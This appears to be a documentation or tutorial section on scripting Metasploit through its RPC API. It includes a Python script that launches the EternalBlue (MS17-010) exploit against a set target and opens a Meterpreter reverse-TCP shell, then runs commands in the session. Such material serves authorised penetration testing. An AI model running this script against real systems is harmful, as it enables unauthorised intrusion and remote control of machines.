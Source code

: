 ### API and Scripting Interface

Metasploit provides a powerful RPC API that can be accessed via various programming languages.

#### Starting the RPC Server

```bash
# Start Metasploit with RPC enabled
msfrpcd -U msf -P password -a 127.0.0.1 -p 55553 -S

# Connect from another terminal
msf6 > load msgrpc ServerHost=127.0.0.1 ServerPort=55553 User=msf Pass=password SSL=true
```

#### Python Scripting with Pymetasploit3

```python
#!/usr/bin/env python3
from pymetasploit3.msfrpc import MsfRpcClient

# Connect to the Metasploit RPC server
client = MsfRpcClient('password', server='127.0.0.1', port=55553, ssl=True)

# Get version information
print(f"Metasploit version: {client.core.version()}")

# List available exploits
exploits = client.modules.exploits
print(f"Available exploits: {len(exploits)}")

# Use an exploit
exploit = client.modules.use('exploit', 'windows/smb/ms17_010_eternalblue')

# Set options
exploit['RHOSTS'] = '192.168.1.100'
exploit['LHOST'] = '192.168.1.200'
exploit['LPORT'] = 4444
exploit['PAYLOAD'] = 'windows/x64/meterpreter/reverse_tcp'

# Execute the exploit
print("Launching exploit...")
exploit.execute()

# Check for sessions
sessions = client.sessions.list
print(f"Active sessions: {sessions}")

# Interact with a session if available
if sessions:
    session_id = list(sessions.keys())[0]
    shell = client.sessions.session(session_id)
    
    # Run commands in the session
    print(shell.run_shell_cmd('whoami'))
    print(shell.run_shell_cmd('ipconfig'))
```
